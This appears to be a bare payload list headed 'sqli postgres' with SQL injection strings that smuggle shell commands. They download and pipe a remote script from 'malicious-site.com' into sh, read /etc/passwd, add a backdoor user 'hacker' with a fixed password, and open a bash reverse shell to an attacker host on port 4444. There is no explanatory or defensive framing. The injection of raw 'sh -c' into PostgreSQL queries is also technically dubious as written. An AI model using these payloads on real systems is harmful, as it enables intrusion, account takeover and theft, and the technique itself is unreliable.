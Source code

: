 # sqli postgres


    sh -c "locale -a"
    ' UNION SELECT 1, 2, 3, 4, 5; sh -c "ls"; --
    '; sh -c "curl http://malicious-site.com/malware.sh | sh"; --
    '; sh -c "cat /etc/passwd"; --
    '; sh -c "useradd hacker -p $(openssl passwd -1 'password123')"; --
    '; sh -c "bash -i >& /dev/tcp/attacker-server-ip/4444 0>&1"; --



